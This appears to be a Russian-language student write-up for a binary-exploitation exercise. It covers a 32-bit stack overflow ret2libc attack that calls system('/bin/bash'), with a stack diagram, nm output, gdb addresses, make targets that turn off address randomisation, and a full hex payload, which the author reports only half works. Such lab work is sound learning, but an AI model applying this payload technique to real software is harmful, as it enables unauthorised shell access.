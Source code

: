 # TLDR
Получилось на половину. У меня получилось достучаться до sh. То есть она выдаёт ошибку, но дальше команду он исполнять не хочет. Я пробовал искать адрес через gdb, но он, видимо, выдает неправильный. Была попытка убрать debug_info, но, видимо, безуспешно.

# Solution

На этот раз мы хотим получить консоль

Для того, чтобы пример заработал, нужно выполнить команду
```
make killSLAR
```

Эта штука создаст файл, выгрузит туда конфигурацию, от отключит систему защиты. ФАЙЛ НЕ УДАЛЯТЬ. Когда закончите играться пишите
```
make aliveSLAR
```

Она впишет конфигурации обратно


Стек такой же
```
ret
ebp
ebx
---

result
* * * *
* * * *
XX XX * * <- buffer

---
---
&buffer
string <- esp
```

Как примерно должен выглядеть payload
```
A...A<system>RRRRRRRR<str><string itself>
|---|           ret
  26
```

System в код была внесена не случайно, иначе её нет в символах. Посмотрим на её адрес (сейчас у нас абсолютные адреса)
```
$ nm main | grep system

0804cb60 T __libc_system
0804c6a0 t do_system
0804cb60 W system
080daf80 r system_dirs
080daf70 r system_dirs_len
```

Адрес system `0804cb60`.

На нужно найти адрес нашей строки, для этого нужно в gdb узнать, наш esp
```
esp = 0xffffc600
str addr = esp + 0x18 = 0xffffc618 (Смотреть рисунок, мы просто попали в саму строку)
```

Предыдущий адрес не соответствует действительному, что-то тут не чисто. Это я прыгал уже на system, он мне говорил, что он находиться на адресе ffffd900. Отдаём место под ret, link и получаем адрес строчки на стэке = ffffd908. Это через gdb. Ладно, фиг с ним, залью этот

Погнали собирать эксплоит (Не факт что свежий, свежий в payload.txt)
```hex
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 60 cb 04 08 61 61 61 61 08 c6 ff ff 2f 62 69 6e 2f 62 61 73 68 00
```

sh ругается на какую-то скобочку. Есть несколько вариантов:
- Отработал CET, потому что в бинарнике я нашел endbr
- gdb рандомизовал пространство (возможно)
- Хз почему исходный esp там далеко от того, что в system.

Короче, пока неудача :(